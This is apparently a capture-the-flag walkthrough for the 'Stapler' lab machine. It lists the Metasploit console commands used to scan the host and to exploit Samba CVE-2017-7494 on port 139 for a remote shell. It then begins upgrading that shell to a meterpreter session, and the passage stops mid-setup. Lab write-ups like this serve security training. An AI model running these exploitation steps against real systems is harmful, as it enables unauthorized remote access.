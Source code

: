 When in the console confirm you are successfully connected to the metasploit database:
```
db_connect
```
Create a new workspace:
```
workspace -a stapler
```
Let's scan the host with `db_nmap`:
```
db_nmap -A 192.168.175.148
```
Check out hosts and services it saved to the database:
```
hosts
services
```
### SMB
As we can see there's a `Samba smbd 4.3.9-Ubuntu` on port 139. Let's check if it is vulnerable to anything by going to [CVEdetails.com](https://www.cvedetails.com) trying to find vulnerabilities with public exploits that affect this version of Samba. We quickly find `CVE-2017-7494`, which looks good. Let's find a corresponding exploit in metasploit console:
```
search cve:cve-2017-7494
```
Let's choose the first result we found:
```
use 0
```
Set RHOSTS to IP of our target from the database:
```
hosts -R
```
Let's checkout if any other options are needed for this exploit:
```
options
```
The port needs to be changed from 445 to 139:
```
set RPORT 139
```
Now we're all set. Let's run the exploit
```
run
```
In a minute we gained a remote shell. Let's try to turn it into a meterpreter by backgrounding this shell with `Ctrl+Z` and looking for a corresponding post exploitation module:
### Meterpreter
```
search shell_to_meterpreter
```
Let's choose the only result we've got:
```
use 0
```
Let's see the options it needs:
```
options
```
Let's set LHOST (even though it's not required) to our desired local IP. Now let's see how many sessions we have and try to identify which ones is our shell session from previous exploit:
```
sessions
```
Looks like we have one session and session id for our shell session is 1. Let's set that as Session option for this post exploitation module:
```
set SESSION 1
```